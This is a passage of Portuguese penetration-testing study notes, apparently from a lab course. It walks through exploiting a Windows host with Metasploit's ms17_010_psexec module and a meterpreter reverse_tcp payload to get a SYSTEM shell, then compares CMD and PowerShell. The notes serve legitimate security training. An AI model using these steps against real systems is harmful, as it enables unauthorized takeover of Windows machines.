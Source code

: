 #### Configurar o Exploit e a Carga Útil
```shell-session
msf6 > use 2
```
![[Pasted image 20240830100108.png]]

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > options
```
![[Pasted image 20240830100145.png]]

Certifique-se de definir suas opções de payload corretamente antes de executar o exploit. Neste caso, precisamos garantir que nossos campos `RHOSTS, LHOST, and LPORT` estejam definidos corretamente.

#### Valide Nossas Opções
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > show options
```
![[Pasted image 20240830100324.png]]
Desta vez, mantivemos a simplicidade e usamos apenas um payload `windows/meterpreter/reverse_tcp`.

4. Execute o ataque e receba um retorno de chamada.
#### Execute nosso ataque
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
![[Pasted image 20240830100438.png]]

```shell-session
meterpreter > getuid
```
![[Pasted image 20240830100512.png]]
Sucesso! Conseguimos nosso exploit e ganhamos uma sessão de shell. Um shell de nível de `SYSTEM`.

5. Identifique a shell nativa.
#### Identifique nossa concha
```shell-session
meterpreter > shell
```
![[Pasted image 20240830100644.png]]

## CMD-Prompt e Power\[Shell\]s para diversão e lucro.
Temos sorte com hosts Windows de termos não uma, mas duas escolhas de shells para utilizar por padrão. Agora você pode estar se perguntando:

`Qal devo usar ?`

A resposta é simples, aquela que fornece a você a capacidade que você precisa no momento. Compare `cmd`e `PowerShell`por um minuto tenha uma noção do que eles oferecem e quando seria melhor escolher um em vez do outro.

O **CMD** é o shell original do MS-DOS, usado para operações básicas e automação simples com arquivos em lote. O **PowerShell**, desenvolvido para expandir as funcionalidades do CMD, suporta comandos nativos do MS-DOS e novos comandos baseados em .NET, além de permitir a criação de módulos com cmdlets.
